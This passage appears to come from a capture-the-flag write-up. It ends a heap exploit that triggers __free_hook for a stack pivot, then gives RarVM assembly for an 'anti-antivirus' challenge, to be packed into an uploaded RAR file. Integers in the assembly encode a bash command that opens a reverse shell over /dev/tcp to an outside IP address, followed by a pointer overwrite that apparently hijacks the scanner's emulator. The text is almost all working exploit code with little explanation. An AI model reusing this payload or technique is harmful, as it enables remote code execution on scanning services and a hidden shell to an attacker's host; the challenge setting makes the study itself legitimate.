 ```python=

dle_msg(1) # trgger __free_hook -> stack pivot

y.interactive()

```

### anti-antivirus
* Use rarvmtools to create rar file and upload.

```c=
#include <constants.rh>
#include <crctools.rh>
#include <math.rh>
#include <util.rh>
; vim: syntax=fasm

_start:
    mov    [r0],#1752392034
    add    r0,#4
    mov    [r0],#543370528
    add    r0,#4
    mov    [r0],#1935761954
    add    r0,#4
    mov    [r0],#540942440
    add    r0,#4
    mov    [r0],#1986356271
    add    r0,#4
    mov    [r0],#1885565999
    add    r0,#4
    mov    [r0],#808726831
    add    r0,#4
    mov    [r0],#858861870
    add    r0,#4
    mov    [r0],#926298414
    add    r0,#4
    mov    [r0],#892875054
    add    r0,#4
    mov    [r0],#875836463
    add    r0,#4
    mov    [r0],#1043341364
    add    r0,#4
    mov    [r0],#2240806
    add    r0,#4
    mov    r0,#0 
    add     r0,#445497328
    mov     r1,r0
    add     r1,#4111392
    mov     r2,[r1]
    mov     r1,r2
    sub     r1,#619536
    add     r1,#324672 
    mov     r2,r0
    add     r2,#4118760
    mov     [r2],r1
    
    add     r2,#4
    mov     r1,r0
    add     r1,#4111396
    mov     r4,[r1]
    mov     r1,r4 
    mov     [r2],r1
    call    $_success
```